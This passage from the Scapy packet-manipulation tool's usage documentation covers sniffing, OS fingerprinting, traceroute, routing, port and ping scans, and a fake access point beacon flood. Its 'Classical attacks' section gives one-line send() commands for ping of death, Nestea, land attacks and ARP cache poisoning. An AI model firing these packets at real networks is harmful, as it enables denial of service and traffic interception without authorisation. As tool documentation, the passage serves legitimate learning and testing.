    >>> pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
    192.168.1.100 -> 64.233.167.99
    
    64.233.167.99 -> 192.168.1.100
    
    192.168.1.100 -> 64.233.167.99
    
    192.168.1.100 -> 64.233.167.99
    'GET / HTTP/1.1\r\nHost: 64.233.167.99\r\nUser-Agent: Mozilla/5.0 
    (X11; U; Linux i686; en-US; rv:1.8.1.8) Gecko/20071022 Ubuntu/7.10 (gutsy)
    Firefox/2.0.0.8\r\nAccept: text/xml,application/xml,application/xhtml+xml,
    text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5\r\nAccept-Language:
    en-us,en;q=0.5\r\nAccept-Encoding: gzip,deflate\r\nAccept-Charset:
    ISO-8859-1,utf-8;q=0.7,*;q=0.7\r\nKeep-Alive: 300\r\nConnection:
    keep-alive\r\nCache-Control: max-age=0\r\n\r\n'
    
We can sniff and do passive OS fingerprinting::

    >>> p
    <Ether dst=00:10:4b:b3:7d:4e src=00:40:33:96:7b:60 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=60 id=61681 flags=DF frag=0L ttl=64 proto=TCP chksum=0xb85e
     src=192.168.8.10 dst=192.168.8.1 options='' |<TCP sport=46511 dport=80
     seq=2023566040L ack=0L dataofs=10L reserved=0L flags=SEC window=5840
     chksum=0x570c urgptr=0 options=[('Timestamp', (342940201L, 0L)), ('MSS', 1460),
     ('NOP', ()), ('SAckOK', ''), ('WScale', 0)] |>>>
    >>> load_module("p0f")
    >>> p0f(p)
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    >>> a=sniff(prn=prnp0f)
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    (0.875, ['Linux 2.4.2 - 2.4.14 (1)', 'Linux 2.4.10 (1)', 'Windows 98 (?)'])
    (1.0, ['Windows 2000 (9)'])

The number before the OS guess is the accuracy of the guess.

Filters
-------

.. index::
   single: filter, sprintf()

Demo of both bpf filter and sprintf() method::

    >>> a=sniff(filter="tcp and ( port 25 or port 110 )",
     prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
    192.168.8.10:47226 -> 213.228.0.14:110   S : 
    213.228.0.14:110 -> 192.168.8.10:47226  SA : 
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  PA : +OK <13103.1048117923@pop2-1.free.fr>
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    192.168.8.10:47226 -> 213.228.0.14:110  PA : USER toto
    
    213.228.0.14:110 -> 192.168.8.10:47226   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  PA : +OK 
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    192.168.8.10:47226 -> 213.228.0.14:110  PA : PASS tata
    
    213.228.0.14:110 -> 192.168.8.10:47226  PA : -ERR authorization failed
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  FA : 
    192.168.8.10:47226 -> 213.228.0.14:110  FA : 
    213.228.0.14:110 -> 192.168.8.10:47226   A : 

Send and receive in a loop 
--------------------------

.. index::
   single: srloop()

Here is an example of a (h)ping-like functionality : you always send the same set of packets to see if something change::

    >>> srloop(IP(dst="www.target.com/30")/TCP())
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S


Importing and Exporting Data
----------------------------
PCAP
^^^^

It is often useful to save capture packets to pcap file for use at later time or with different applications::

    >>> wrpcap("temp.cap",pkts)

To restore previously saved pcap file:

    >>> pkts = rdpcap("temp.cap")

or

    >>> pkts = sniff(offline="temp.cap")

Hexdump
^^^^^^^

Scapy allows you to export recorded packets in various hex formats.

Use ``hexdump()`` to display one or more packets using classic hexdump format::

    >>> hexdump(pkt)
    0000   00 50 56 FC CE 50 00 0C  29 2B 53 19 08 00 45 00   .PV..P..)+S...E.
    0010   00 54 00 00 40 00 40 01  5A 7C C0 A8 19 82 04 02   .T..@.@.Z|......
    0020   02 01 08 00 9C 90 5A 61  00 01 E6 DA 70 49 B6 E5   ......Za....pI..
    0030   08 00 08 09 0A 0B 0C 0D  0E 0F 10 11 12 13 14 15   ................
    0040   16 17 18 19 1A 1B 1C 1D  1E 1F 20 21 22 23 24 25   .......... !"#$%
    0050   26 27 28 29 2A 2B 2C 2D  2E 2F 30 31 32 33 34 35   &'()*+,-./012345
    0060   36 37                                              67

Hexdump above can be reimported back into Scapy using ``import_hexcap()``::

    >>> pkt_hex = Ether(import_hexcap())
    0000   00 50 56 FC CE 50 00 0C  29 2B 53 19 08 00 45 00   .PV..P..)+S...E.
    0010   00 54 00 00 40 00 40 01  5A 7C C0 A8 19 82 04 02   .T..@.@.Z|......
    0020   02 01 08 00 9C 90 5A 61  00 01 E6 DA 70 49 B6 E5   ......Za....pI..
    0030   08 00 08 09 0A 0B 0C 0D  0E 0F 10 11 12 13 14 15   ................
    0040   16 17 18 19 1A 1B 1C 1D  1E 1F 20 21 22 23 24 25   .......... !"#$%
    0050   26 27 28 29 2A 2B 2C 2D  2E 2F 30 31 32 33 34 35   &'()*+,-./012345
    0060   36 37                                              67
    >>> pkt_hex
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>

Binary string
^^^^^^^^^^^^^

You can also convert entire packet into a binary string using the ``raw()`` function::

    >>> pkts = sniff(count = 1)
    >>> pkt = pkts[0]
    >>> pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>
    >>> pkt_raw = raw(pkt)
    >>> pkt_raw
    '\x00PV\xfc\xceP\x00\x0c)+S\x19\x08\x00E\x00\x00T\x00\x00@\x00@\x01Z|\xc0\xa8
    \x19\x82\x04\x02\x02\x01\x08\x00\x9c\x90Za\x00\x01\xe6\xdapI\xb6\xe5\x08\x00
    \x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b
    \x1c\x1d\x1e\x1f !"#$%&\'()*+,-./01234567'

We can reimport the produced binary string by selecting the appropriate first layer (e.g. ``Ether()``).

    >>> new_pkt = Ether(pkt_raw)
    >>> new_pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>

Base64
^^^^^^

Using the ``export_object()`` function, Scapy can export a base64 encoded Python data structure representing a packet::

    >>> pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f 
    !"#$%&\'()*+,-./01234567' |>>>>
    >>> export_object(pkt)
    eNplVwd4FNcRPt2dTqdTQ0JUUYwN+CgS0gkJONFEs5WxFDB+CdiI8+pupVl0d7uzRUiYtcEGG4ST
    OD1OnB6nN6c4cXrvwQmk2U5xA9tgO70XMm+1rA78qdzbfTP/lDfzz7tD4WwmU1C0YiaT2Gqjaiao
    bMlhCrsUSYrYoKbmcxZFXSpPiohlZikm6ltb063ZdGpNOjWQ7mhPt62hChHJWTbFvb0O/u1MD2bT
    WZXXVCmi9pihUqI3FHdEQslriiVfWFTVT9VYpog6Q7fsjG0qRWtQNwsW1fRTrUg4xZxq5pUx1aS6
    ...

The output above can be reimported back into Scapy using ``import_object()``::

    >>> new_pkt = import_object()
    eNplVwd4FNcRPt2dTqdTQ0JUUYwN+CgS0gkJONFEs5WxFDB+CdiI8+pupVl0d7uzRUiYtcEGG4ST
    OD1OnB6nN6c4cXrvwQmk2U5xA9tgO70XMm+1rA78qdzbfTP/lDfzz7tD4WwmU1C0YiaT2Gqjaiao
    bMlhCrsUSYrYoKbmcxZFXSpPiohlZikm6ltb063ZdGpNOjWQ7mhPt62hChHJWTbFvb0O/u1MD2bT
    WZXXVCmi9pihUqI3FHdEQslriiVfWFTVT9VYpog6Q7fsjG0qRWtQNwsW1fRTrUg4xZxq5pUx1aS6
    ...
    >>> new_pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f 
    !"#$%&\'()*+,-./01234567' |>>>>

Sessions
^^^^^^^^

At last Scapy is capable of saving all session variables using the ``save_session()`` function:

>>> dir()
['__builtins__', 'conf', 'new_pkt', 'pkt', 'pkt_export', 'pkt_hex', 'pkt_raw', 'pkts']
>>> save_session("session.scapy")

Next time you start Scapy you can load the previous saved session using the ``load_session()`` command::

    >>> dir()
    ['__builtins__', 'conf']
    >>> load_session("session.scapy")
    >>> dir()
    ['__builtins__', 'conf', 'new_pkt', 'pkt', 'pkt_export', 'pkt_hex', 'pkt_raw', 'pkts']


Making tables
-------------

.. index::
   single: tables, make_table()

Now we have a demonstration of the ``make_table()`` presentation function. It takes a list as parameter, and a function who returns a 3-uple. The first element is the value on the x axis from an element of the list, the second is about the y value and the third is the value that we want to see at coordinates (x,y). The result is a table. This function has 2 variants, ``make_lined_table()`` and ``make_tex_table()`` to copy/paste into your LaTeX pentest report. Those functions are available as methods of a result object :

Here we can see a multi-parallel traceroute (scapy already has a multi TCP traceroute function. See later)::

    >>> ans, unans = sr(IP(dst="www.test.fr/30", ttl=(1,6))/TCP())
    Received 49 packets, got 24 answers, remaining 0 packets
    >>> ans.make_table( lambda (s,r): (s.dst, s.ttl, r.src) )
      216.15.189.192  216.15.189.193  216.15.189.194  216.15.189.195  
    1 192.168.8.1     192.168.8.1     192.168.8.1     192.168.8.1     
    2 81.57.239.254   81.57.239.254   81.57.239.254   81.57.239.254   
    3 213.228.4.254   213.228.4.254   213.228.4.254   213.228.4.254   
    4 213.228.3.3     213.228.3.3     213.228.3.3     213.228.3.3     
    5 193.251.254.1   193.251.251.69  193.251.254.1   193.251.251.69  
    6 193.251.241.174 193.251.241.178 193.251.241.174 193.251.241.178 

Here is a more complex example to identify machines from their IPID field. We can see that 172.20.80.200:22 is answered by the same IP stack than 172.20.80.201 and that 172.20.80.197:25 is not answered by the sape IP stack than other ports on the same IP.

::

    >>> ans, unans = sr(IP(dst="172.20.80.192/28")/TCP(dport=[20,21,22,25,53,80]))
    Received 142 packets, got 25 answers, remaining 71 packets
    >>> ans.make_table(lambda (s,r): (s.dst, s.dport, r.sprintf("%IP.id%")))
       172.20.80.196 172.20.80.197 172.20.80.198 172.20.80.200 172.20.80.201 
    20 0             4203          7021          -             11562             
    21 0             4204          7022          -             11563             
    22 0             4205          7023          11561         11564             
    25 0             0             7024          -             11565             
    53 0             4207          7025          -             11566             
    80 0             4028          7026          -             11567             

It can help identify network topologies very easily when playing with TTL, displaying received TTL, etc.

Routing
-------

.. index::
   single: Routing, conf.route

Now scapy has its own routing table, so that you can have your packets routed differently than the system::

    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.1     eth0
    >>> conf.route.delt(net="0.0.0.0/0",gw="192.168.8.1")
    >>> conf.route.add(net="0.0.0.0/0",gw="192.168.8.254")
    >>> conf.route.add(host="192.168.1.1",gw="192.168.8.1")
    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.254   eth0
    192.168.1.1     255.255.255.255 192.168.8.1     eth0
    >>> conf.route.resync()
    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.1     eth0

Gnuplot
-------

.. index::
   single: Gnuplot, plot()

We can easily plot some harvested values using Gnuplot. (Make sure that you have Gnuplot-py and Gnuplot installed.)
For example, we can observe the IP ID patterns to know how many distinct IP stacks are used behind a load balancer::

    >>> a, b = sr(IP(dst="www.target.com")/TCP(sport=[RandShort()]*1000))
    >>> a.plot(lambda x:x[1].id)
    <Gnuplot._Gnuplot.Gnuplot instance at 0xb7d6a74c>

.. image:: graphics/ipid.png


TCP traceroute (2)
------------------

.. index::
   single: traceroute(), Traceroute

Scapy also has a powerful TCP traceroute function. Unlike other traceroute programs that wait for each node to reply before going to the next, scapy sends all the packets at the same time. This has the disadvantage that it can't know when to stop (thus the maxttl parameter) but the great advantage that it took less than 3 seconds to get this multi-target traceroute result::

    >>> traceroute(["www.yahoo.com","www.altavista.com","www.wisenut.com","www.copernic.com"],maxttl=20)
    Received 80 packets, got 80 answers, remaining 0 packets
       193.45.10.88:80    216.109.118.79:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.243.5.254       82.243.5.254       82.243.5.254       82.243.5.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    4  212.27.50.46       212.27.50.46       212.27.50.46       212.27.50.46       
    5  212.27.50.37       212.27.50.41       212.27.50.37       212.27.50.41       
    6  212.27.50.34       212.27.50.34       213.228.3.234      193.251.251.69     
    7  213.248.71.141     217.118.239.149    208.184.231.214    193.251.241.178    
    8  213.248.65.81      217.118.224.44     64.125.31.129      193.251.242.98     
    9  213.248.70.14      213.206.129.85     64.125.31.186      193.251.243.89     
    10 193.45.10.88    SA 213.206.128.160    64.125.29.122      193.251.254.126    
    11 193.45.10.88    SA 206.24.169.41      64.125.28.70       216.115.97.178     
    12 193.45.10.88    SA 206.24.226.99      64.125.28.209      66.218.64.146      
    13 193.45.10.88    SA 206.24.227.106     64.125.29.45       66.218.82.230      
    14 193.45.10.88    SA 216.109.74.30      64.125.31.214      66.94.229.254   SA 
    15 193.45.10.88    SA 216.109.120.149    64.124.229.109     66.94.229.254   SA 
    16 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    17 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    18 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    19 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    20 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    (<Traceroute: UDP:0 TCP:28 ICMP:52 Other:0>, <Unanswered: UDP:0 TCP:0 ICMP:0 Other:0>)

The last line is in fact the result of the function : a traceroute result object and a packet list of unanswered packets. The traceroute result is a more specialised version (a subclass, in fact) of a classic result object. We can save it to consult the traceroute result again a bit later, or to deeply inspect one of the answers, for example to check padding.

    >>> result, unans = _
    >>> result.show()
       193.45.10.88:80    216.109.118.79:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    [...]
    >>> result.filter(lambda x: Padding in x[1])

Like any result object, traceroute objects can be added :

    >>> r2, unans = traceroute(["www.voila.com"],maxttl=20)
    Received 19 packets, got 19 answers, remaining 1 packets
       195.101.94.25:80   
    1  192.168.8.1        
    2  82.251.4.254     
    3  213.228.4.254      
    4  212.27.50.169      
    5  212.27.50.162      
    6  193.252.161.97     
    7  193.252.103.86     
    8  193.252.103.77     
    9  193.252.101.1      
    10 193.252.227.245    
    12 195.101.94.25   SA 
    13 195.101.94.25   SA 
    14 195.101.94.25   SA 
    15 195.101.94.25   SA 
    16 195.101.94.25   SA 
    17 195.101.94.25   SA 
    18 195.101.94.25   SA 
    19 195.101.94.25   SA 
    20 195.101.94.25   SA 
    >>>
    >>> r3=result+r2
    >>> r3.show()
       195.101.94.25:80   212.23.37.13:80    216.109.118.72:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    4  212.27.50.169      212.27.50.169      212.27.50.46       -                  212.27.50.46       
    5  212.27.50.162      212.27.50.162      212.27.50.37       212.27.50.41       212.27.50.37       
    6  193.252.161.97     194.68.129.168     212.27.50.34       213.228.3.234      193.251.251.69     
    7  193.252.103.86     212.23.42.33       217.118.239.185    208.184.231.214    193.251.241.178    
    8  193.252.103.77     212.23.42.6        217.118.224.44     64.125.31.129      193.251.242.98     
    9  193.252.101.1      212.23.37.13    SA 213.206.129.85     64.125.31.186      193.251.243.89     
    10 193.252.227.245    212.23.37.13    SA 213.206.128.160    64.125.29.122      193.251.254.126    
    11 -                  212.23.37.13    SA 206.24.169.41      64.125.28.70       216.115.97.178     
    12 195.101.94.25   SA 212.23.37.13    SA 206.24.226.100     64.125.28.209      216.115.101.46     
    13 195.101.94.25   SA 212.23.37.13    SA 206.24.238.166     64.125.29.45       66.218.82.234      
    14 195.101.94.25   SA 212.23.37.13    SA 216.109.74.30      64.125.31.214      66.94.229.254   SA 
    15 195.101.94.25   SA 212.23.37.13    SA 216.109.120.151    64.124.229.109     66.94.229.254   SA 
    16 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    17 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    18 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    19 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    20 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 

Traceroute result object also have a very neat feature: they can make a directed graph from all the routes they got, and cluster them by AS. You will need graphviz. By default, ImageMagick is used to display the graph.

    >>> res, unans = traceroute(["www.microsoft.com","www.cisco.com","www.yahoo.com","www.wanadoo.fr","www.pacsec.com"],dport=[80,443],maxttl=20,retry=-2)
    Received 190 packets, got 190 answers, remaining 10 packets
       193.252.122.103:443 193.252.122.103:80 198.133.219.25:443 198.133.219.25:80  207.46...
    1  192.168.8.1         192.168.8.1        192.168.8.1        192.168.8.1        192.16...
    2  82.251.4.254        82.251.4.254       82.251.4.254       82.251.4.254       82.251...
    3  213.228.4.254       213.228.4.254      213.228.4.254      213.228.4.254      213.22...
    [...]
    >>> res.graph()                          # piped to ImageMagick's display program. Image below.
    >>> res.graph(type="ps",target="| lp")   # piped to postscript printer
    >>> res.graph(target="> /tmp/graph.svg") # saved to file 

.. image:: graphics/graph_traceroute.png

If you have VPython installed, you also can have a 3D representation of the traceroute. With the right button, you can rotate the scene, with the middle button, you can zoom, with the left button, you can move the scene. If you click on a ball, it's IP will appear/disappear. If you Ctrl-click on a ball, ports 21, 22, 23, 25, 80 and 443 will be scanned and the result displayed::

    >>> res.trace3D()

.. image:: graphics/trace3d_1.png

.. image:: graphics/trace3d_2.png

Wireless frame injection
------------------------

.. index::
   single: FakeAP, Dot11, wireless, WLAN

Provided that your wireless card and driver are correctly configured for frame injection

::

    $ iw dev wlan0 interface add mon0 type monitor
    $ ifconfig mon0 up

On Windows, if using Npcap, the equivalent would be to call

    # Of course, conf.iface can be replaced by any interfaces accessed through IFACES
    >>> conf.iface.setmode(1)

you can have a kind of FakeAP::

    >>> sendp(RadioTap()/
              Dot11(addr1="ff:ff:ff:ff:ff:ff",
                    addr2="00:01:02:03:04:05",
                    addr3="00:01:02:03:04:05")/
              Dot11Beacon(cap="ESS", timestamp=1)/
              Dot11Elt(ID="SSID", info=RandString(RandNum(1,50)))/
              Dot11Elt(ID="Rates", info='\x82\x84\x0b\x16')/
              Dot11Elt(ID="DSset", info="\x03")/
              Dot11Elt(ID="TIM", info="\x00\x01\x00\x00"),
              iface="mon0", loop=1)

Depending on the driver, the commands needed to get a working frame injection interface may vary. You may also have to replace the first pseudo-layer (in the example ``RadioTap()``) by ``PrismHeader()``, or by a proprietary pseudo-layer, or even to remove it.


Simple one-liners
=================


ACK Scan
--------

Using Scapy's powerful packet crafting facilities we can quick replicate classic TCP Scans.
For example, the following string will be sent to simulate an ACK Scan::

    >>> ans, unans = sr(IP(dst="www.slashdot.org")/TCP(dport=[80,666],flags="A"))

We can find unfiltered ports in answered packets::

    >>> for s,r in ans:
    ...     if s[TCP].dport == r[TCP].sport:
    ...        print("%d is unfiltered" % s[TCP].dport)

Similarly, filtered ports can be found with unanswered packets::

    >>> for s in unans:     
    ...     print("%d is filtered" % s[TCP].dport)


Xmas Scan
---------

Xmas Scan can be launched using the following command::

    >>> ans, unans = sr(IP(dst="192.168.1.1")/TCP(dport=666,flags="FPU") )

Checking RST responses will reveal closed ports on the target. 

IP Scan
-------

A lower level IP Scan can be used to enumerate supported protocols::

    >>> ans, unans = sr(IP(dst="192.168.1.1",proto=(0,255))/"SCAPY",retry=2)


ARP Ping
--------

The fastest way to discover hosts on a local ethernet network is to use the ARP Ping method::

    >>> ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)

Answers can be reviewed with the following command::

    >>> ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )

Scapy also includes a built-in arping() function which performs similar to the above two commands:

    >>> arping("192.168.1.*")


ICMP Ping
---------

Classical ICMP Ping can be emulated using the following command::

    >>> ans, unans = sr(IP(dst="192.168.1.1-254")/ICMP())

Information on live hosts can be collected with the following request::

    >>> ans.summary(lambda (s,r): r.sprintf("%IP.src% is alive") )


TCP Ping
--------

In cases where ICMP echo requests are blocked, we can still use various TCP Pings such as TCP SYN Ping below::

    >>> ans, unans = sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )

Any response to our probes will indicate a live host. We can collect results with the following command::

    >>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )


UDP Ping
--------

If all else fails there is always UDP Ping which will produce ICMP Port unreachable errors from live hosts. Here you can pick any port which is most likely to be closed, such as port 0::

    >>> ans, unans = sr( IP(dst="192.168.*.1-10")/UDP(dport=0) )

Once again, results can be collected with this command:

    >>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )



Classical attacks
-----------------

Malformed packets::

    >>> send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP()) 

Ping of death (Muuahahah)::

    >>> send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) ) 

Nestea attack::

    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10)) 
    >>> send(IP(dst=target, id=42, frag=48)/("X"*116)) 
    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224)) 
    
Land attack (designed for Microsoft Windows)::

    >>> send(IP(src=target,dst=target)/TCP(sport=135,dport=135))

ARP cache poisoning   
------------------- 
This attack prevents a client from joining the gateway by poisoning 
its ARP cache through a VLAN hopping attack. 

Classic ARP cache poisoning::

    >>> send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client), 
          inter=RandNum(10,40), loop=1 ) 

ARP cache poisoning with double 802.1q encapsulation::
 
    >>> send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2) 
          /ARP(op="who-has", psrc=gateway, pdst=client),
          inter=RandNum(10,40), loop=1 )

TCP Port Scanning 
-----------------
 
Send a TCP SYN on each port. Wait for a SYN-ACK or a RST or an ICMP error:: 

    >>> res, unans = sr( IP(dst="target") 
                    /TCP(flags="S", dport=(1,1024)) ) 

Possible result visualization: open ports

::

    >>> res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
    
    
IKE Scanning
------------

We try to identify VPN concentrators by sending ISAKMP Security Association proposals
and receiving the answers::

    >>> res, unans = sr( IP(dst="192.168.1.*")/UDP()
                    /ISAKMP(init_cookie=RandString(8), exch_type="identity prot.") 
                    /ISAKMP_payload_SA(prop=ISAKMP_payload_Proposal()) 
                  ) 

Visualizing the results in a list::

    >>> res.nsummary(prn=lambda (s,r): r.src, lfilter=lambda (s,r): r.haslayer(ISAKMP) ) 
    
  

Advanced traceroute
-------------------

TCP SYN traceroute
^^^^^^^^^^^^^^^^^^

::

    >>> ans, unans = sr(IP(dst="4.2.2.1",ttl=(1,10))/TCP(dport=53,flags="S"))

Results would be::

    >>> ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
    192.168.1.1     time-exceeded
    68.86.90.162    time-exceeded
    4.79.43.134     time-exceeded
    4.79.43.133     time-exceeded
    4.68.18.126     time-exceeded
    4.68.123.38     time-exceeded
    4.2.2.1         SA


UDP traceroute
^^^^^^^^^^^^^^

Tracerouting an UDP application like we do with TCP is not 
reliable, because there's no handshake. We need to give an applicative payload (DNS, ISAKMP, 
NTP, etc.) to deserve an answer::

    >>> res, unans = sr(IP(dst="target", ttl=(1,20))
                  /UDP()/DNS(qd=DNSQR(qname="test.com")) 

We can visualize the results as a list of routers::

    >>> res.make_table(lambda (s,r): (s.dst, s.ttl, r.src)) 


DNS traceroute
^^^^^^^^^^^^^^

We can perform a DNS traceroute by specifying a complete packet in ``l4`` parameter of ``traceroute()`` function::

    >>> ans, unans = traceroute("4.2.2.1",l4=UDP(sport=RandShort())/DNS(qd=DNSQR(qname="thesprawl.org")))
    Begin emission:
    ..*....******...******.***...****Finished to send 30 packets.
    *****...***...............................
    Received 75 packets, got 28 answers, remaining 2 packets
       4.2.2.1:udp53      
    1  192.168.1.1     11 
    4  68.86.90.162    11 
    5  4.79.43.134     11 
    6  4.79.43.133     11 
    7  4.68.18.62      11 
    8  4.68.123.6      11 
    9  4.2.2.1            
    ...


Etherleaking 
------------

::

    >>> sr1(IP(dst="172.16.1.232")/ICMP()) 
    <IP src=172.16.1.232 proto=1 [...] |<ICMP code=0 type=0 [...]| 
